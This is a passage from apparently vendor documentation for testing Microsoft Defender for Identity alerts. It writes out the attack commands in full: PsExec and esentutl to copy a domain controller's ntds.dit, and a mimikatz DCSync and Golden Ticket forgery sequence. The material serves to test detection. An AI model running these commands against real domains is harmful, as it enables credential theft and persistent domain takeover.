 For details about this alert, see [Data exfiltration over SMB (external ID 2030)](other-alerts.md#data-exfiltration-over-smb-external-id-2030).

This alert is triggered when suspicious transfers of data are observed from your monitored domain controllers, such as when an attacker copies the ntds.dit file from a domain controller to a workstation.

From a command line on a workstation, run with a domain admin account:  

`PSEexec -s -i \\msdemo-DC01 cmd.exe` => to get a cmd session on a domain controller

`Esentutl /y /i c:\windows\ntds\ntds.dit /d c:\windows\ntds.dit` => to get a copy of the ntds.dit file for an exfiltration

Copy the ntds.dit file from the DC to your workstation (Z:).

Tools available from: [Sysinternals downloads](/sysinternals/downloads/)

Detail in the alert:  

![Data exfiltration over SMB alert details.](media/playbooks/data-exfiltration-smb-details.png)

Keep in mind that Defender for Identity can also track files uploaded from workstation or server to a domain controller. This can be useful to detect abnormal activities. You should see this type of activities from the user timeline:  

![Files copied to a domain controller.](media/playbooks/files-copied-domain-controller.png)  

## Suspected Golden Ticket usage (encryption downgrade) & (nonexistent account) & (Time anomaly)

For details about this alert, see [Suspected Golden Ticket usage (encryption downgrade) (external ID 2009)](persistence-privilege-escalation-alerts.md#suspected-golden-ticket-usage-encryption-downgrade-external-id-2009), [Suspected Golden Ticket usage (nonexistent account) (external ID 2027)](persistence-privilege-escalation-alerts.md#suspected-golden-ticket-usage-nonexistent-account-external-id-2027), and [Suspected Golden Ticket usage (time anomaly) (external ID 2022)](persistence-privilege-escalation-alerts.md#suspected-golden-ticket-usage-time-anomaly-external-id-2022).

Defender for Identity can detect six types of Golden Ticket attacks. Let's see two of them.

Using the krbtgt's password hash from the DCsync attackers can now create a Kerberos ticket granting ticket (TGT) that provides authorization to any resource and set the ticket expiration to any arbitrary time. This fake TGT is called a "Golden Ticket" and allows attackers to achieve network persistence.  

From a command line on a workstation, run with a local admin account:  

`mimikatz # privilege::debug`
`mimikatz # lsadump::dcsync /domain:msdemo.local /user:krbtgt`  => to get the krbgt's password hash needed for the /rc4
`mimikatz # Kerberos::golden /domain:msdemo.local /sid:S-1-5-21-4112553867-xxxxxxxxxxxx /rc4:xxxxxxxxxxxxxxx /user:administrator /id:500 /groups:513,512,520,518,519 /ticket:administrator.kirbi` => create a fake TGT for the default administrator account (RID=500) and add sensitive RID groups  
`mimikatz # kerberos::ptt administrator.kirbi` => load the fake TGT  
`mimikatz # misc::cmd` => open a cmd  
`klist` => check if the TGT is loaded  
`ldp.exe` => then bind (digest) to an LDAP server to use the fake TGT for encryption downgrade detection
